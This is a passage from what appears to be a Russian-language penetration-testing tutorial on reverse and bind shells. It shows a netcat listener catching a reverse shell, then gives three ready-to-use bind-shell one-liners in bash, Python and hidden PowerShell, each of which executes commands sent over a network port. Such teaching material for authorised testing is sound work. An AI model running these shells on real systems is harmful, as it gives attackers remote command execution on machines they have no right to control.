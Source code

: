 Мы можем использовать имеющийся у нас эксплойт на удаленном хосте для выполнения одной из вышеперечисленных команд, то есть через эксплойт Python или модуль Metasploit, чтобы получить обратное соединение. Как только мы это сделаем, мы должны получить соединение в нашем слушателе netcat:

```text
spike@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Как мы видим, после того, как мы получили соединение с нашим слушателем netcat, мы смогли набрать нашу команду и напрямую получить ее результат прямо на нашей машине.

Обратная оболочка удобна, когда мы хотим получить быстрое и надежное соединение с нашим скомпрометированным хостом. Однако обратная оболочка может быть очень хрупкой. Как только команда обратной оболочки остановлена или если мы потеряем соединение по какой-либо причине, нам придется использовать начальный эксплойт для повторного выполнения команды обратной оболочки, чтобы восстановить наш доступ.

## Bind Shell

Другой тип оболочки - это Bind Shell. В отличие от Reverse Shell, которая подключается к нам, нам придется подключаться к ней через порт прослушивания целей.

Как только мы выполним команду Bind Shell, она начнет прослушивание порт на удаленном хосте и привяжет оболочку этого хоста, то есть Bash или PowerShell 'к этому порту. Мы должны подключиться к этому порту с помощью netcat, и мы получим управление через оболочку в этой системе.

### **Bind Shell Command**

Еще раз, мы можем использовать [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md), чтобы найти правильную команду для запуска нашей оболочки связывания.

{% hint style="info" %}
Мы запустим прослушивающее соединение на порту «1234» на удаленном хосте с IP «0.0.0.0», чтобы мы могли подключиться к нему из любого места.
{% endhint %}

Ниже приведены надежные команды, которые мы можем использовать для запуска оболочки привязки:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```
